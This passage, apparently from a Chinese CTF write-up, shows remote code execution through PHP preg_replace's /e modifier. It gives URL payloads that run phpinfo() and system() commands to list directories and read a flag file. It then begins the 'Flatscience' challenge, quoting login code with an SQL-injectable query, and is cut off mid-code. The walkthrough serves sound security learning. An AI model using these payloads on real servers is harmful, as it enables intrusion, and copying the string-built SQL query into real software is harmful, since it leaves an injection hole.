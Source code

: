 如果我们提交?h=phpinfo()，phpinfo()将会被执行（使用/e修饰符，preg_replace会将 replacement 参数当作 PHP 代码执行）。这个正则被正确的匹配到，在进行替换的过程中，需要将$_GET[“h”]传入的String当作函数来运行，因此phpinfo()被成功执行。

代码如下：

```
<?php
preg_replace("/test/e",$_GET["h"],"jutst test");
?>
```

访问的url：?h=phpinfo()就会触发phpinfo()的执行

在本题中我们传入：?pat=/test/e&rep=phpinfo()&sub=just test 就会触发phpinfo()的执行

![20190831135501.png](https://raw.githubusercontent.com/handbye/images/master/20190831135501.png)

同样执行系统命令：

```
?pat=/test/e&rep=system("ls")&sub=just test
```

![20190831135609.png](https://raw.githubusercontent.com/handbye/images/master/20190831135609.png)

```
?pat=/test/e&rep=system("cd s3chahahaDir;ls -la")&sub=just test
```

![20190831135945.png](https://raw.githubusercontent.com/handbye/images/master/20190831135945.png)

```
?pat=/test/e&rep=system("cd s3chahahaDir/flag;ls -la")&sub=just test
```

![20190831140023.png](https://raw.githubusercontent.com/handbye/images/master/20190831140023.png)

```
?pat=/test/e&rep=system("cat s3chahahaDir/flag/flag.php")&sub= just test
```

![20190831141725.png](https://raw.githubusercontent.com/handbye/images/master/20190831141725.png)

Flag是注释在网页中的，这点需要注意。




## Flatscience
进去就是页面跳来跳去emmm,先扫个目录好了:  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917185848137.png)  
扫到一个login.php,查看源码,发现参数debug,传参?debug=1,得到如下代码:

```
<?php 
if(isset($_POST['usr']) && isset($_POST['pw'])){ 
        $user = $_POST['usr']; 
        $pass = $_POST['pw']; 

        $db = new SQLite3('../fancy.db'); 
         
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'"); 
    if($res){ 
        $row = $res->fetchArray(); 
    } 
    else{ 
        echo "<br>Some Error occourred!"; 
    } 

```